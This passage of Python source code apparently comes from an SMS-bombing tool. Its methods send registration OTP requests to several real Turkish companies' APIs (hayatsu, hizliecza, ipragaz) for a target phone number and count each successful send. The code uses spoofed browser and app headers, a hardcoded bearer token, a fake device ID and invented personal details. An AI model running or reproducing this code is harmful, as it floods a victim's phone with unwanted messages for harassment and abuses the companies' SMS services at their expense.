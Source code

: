 
    #hayatsu.com.tr
    def Hayatsu(self):
        try:
            url = "https://api.hayatsu.com.tr:443/api/SignUp/SendOtp"
            headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0", "Accept": "application/json, text/javascript, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Referer": "https://www.hayatsu.com.tr/", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Authorization": "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqdGkiOiJhMTA5MWQ1ZS0wYjg3LTRjYWQtOWIxZi0yNTllMDI1MjY0MmMiLCJsb2dpbmRhdGUiOiIxOS4wMS4yMDI0IDIyOjU3OjM3Iiwibm90dXNlciI6InRydWUiLCJwaG9uZU51bWJlciI6IiIsImV4cCI6MTcyMTI0NjI1NywiaXNzIjoiaHR0cHM6Ly9oYXlhdHN1LmNvbS50ciIsImF1ZCI6Imh0dHBzOi8vaGF5YXRzdS5jb20udHIifQ.Cip4hOxGPVz7R2eBPbq95k6EoICTnPLW9o2eDY6qKMM", "Origin": "https://www.hayatsu.com.tr", "Dnt": "1", "Sec-Gpc": "1", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-site", "Te": "trailers"}
            data = {"mobilePhoneNumber": self.phone, "actionType": "register"}
            r = requests.post(url, headers=headers, data=data, timeout=6)
            if r.json()["is_success"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.hayatsu.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.hayatsu.com.tr")


    #hizliecza.com.tr
    def Hizliecza(self):
        try:
            url = "https://hizlieczaprodapi.hizliecza.net:443/mobil/account/sendOTP"
            headers = {"Accept": "application/json", "Content-Type": "application/json", "Accept-Encoding": "gzip, deflate", "User-Agent": "hizliecza/12 CFNetwork/1335.0.3.2 Darwin/21.6.0", "Accept-Language": "en-US,en;q=0.9", "Authorization": "Bearer null"}
            json={"otpOperationType": 2, "phoneNumber": f"+90{self.phone}"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["isSuccess"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> hizlieczaprodapi.hizliecza.net")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> hizlieczaprodapi.hizliecza.net")


    #ipragaz.com.tr
    def Ipragaz(self):
        try:
            url = "https://ipapp.ipragaz.com.tr:443/ipragazmobile/v2/ipragaz-b2c/ipragaz-customer/mobile-register-otp"
            headers = {"Content-Type": "application/json", "X-Api-Token": "", "Authorization": "", "App-Version": "1.3.9", "App-Lang": "en", "Accept": "*/*", "App-Name": "ipragaz-mobile", "Os": "ios", "Accept-Language": "en-TR;q=1.0, tr-TR;q=0.9", "Accept-Encoding": "gzip, deflate", "User-Agent": "ipragaz-mobile/1.3.9 (com.ipragaz.ipapp; build:41; iOS 15.7.7) Alamofire/5.6.4", "App-Build": "41", "Os-Version": "15.7.7", "Udid": "73AD2D6E-9FC7-40C1-AFF3-88E67591DCF8", "Connection": "close"}
            json={"birthDate": "2/7/2000", "carPlate": "31 ABC 31", "mobileOtp": "f32c79e65cc684a14b15dcb9dc7e9e9d92b2f6d269fd9000a7b75e02cfd8fa63", "name": "Memati Bas", "otp": "", "phoneNumber": self.phone, "playerId": ""}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> ipapp.ipragaz.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> ipapp.ipragaz.com.tr")